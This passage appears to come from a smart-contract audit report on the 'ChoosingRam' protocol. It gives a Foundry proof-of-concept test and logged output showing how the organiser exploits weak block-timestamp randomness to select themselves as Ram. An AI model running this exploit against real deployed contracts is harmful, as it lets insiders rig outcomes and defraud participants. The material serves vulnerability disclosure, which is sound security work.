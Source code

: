 - Organizer enters the protocol as first participant (`tokenId: 0`)
- We can create an arbitrary amount of users (100 in this example) setting the counter (101 in this example)

##### Foundry Test:
```js
function test_organizerAttackWorks() public participants {
	// 5th entrant has nft stats boosted, but does not become `ChoosingRam::selectedRam`
	vm.startPrank(organiser);
	choosingRam.increaseValuesOfParticipants(0, 4);
	choosingRam.increaseValuesOfParticipants(0, 4);
	choosingRam.increaseValuesOfParticipants(0, 4);
	choosingRam.increaseValuesOfParticipants(0, 4);    
	choosingRam.increaseValuesOfParticipants(0, 4);
	assertEq(ramNFT.getCharacteristics(4).isSatyavaakyah, true);
	assertEq(choosingRam.isRamSelected(), false);
	vm.stopPrank();


	// warp to where `ChoosingRam::selectRamIfNotSelected()` can be called 
	vm.warp(1728691200 + 1);
	uint256 counter = ramNFT.tokenCounter();
	uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao))) % ramNFT.tokenCounter();
	console.log("counter: ", counter);
	console.log("randomCheck: ", random);

	// attacker sets `ChoosingRam` contract
	vm.startPrank(organiser);
	attack.setContract(address(choosingRam));
	vm.stopPrank();

	// warp to a block found with `test_findZeroRandomness`
	vm.warp(1728774915);
	random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao))) % ramNFT.tokenCounter();
	console.log("randomAttack: ", random);

	vm.startPrank(organiser);
	attack.attack(0, counter);
	address selected = choosingRam.selectedRam();
	console.log("selected: ", selected);
	console.log("organizer: ", organiser);
	assertEq(choosingRam.isRamSelected(), true);
	vm.stopPrank();
}
//  counter:  101
//  randomCheck:  37
//  randomAttack:  0
//  selected:  0xe81f335f0c35d66819c4dF203d728f579880b4b1
//  organizer:  0xe81f335f0c35d66819c4dF203d728f579880b4b1
```
- The test shows `ChoosingRam::increaseValuesOfParticipants` maxing out the `RamNFT` for entrant 5
	- It does not trigger `ChoosingRam::isSelected`
- The organizer figures out which blocks they can exploit
	- In the wild, the attack function could be triggered near one of these timestamps
	- Without a contract, the malicious actor's call of `ChoosingRam::selectRamIfNotSelected()` would need to be much more precise
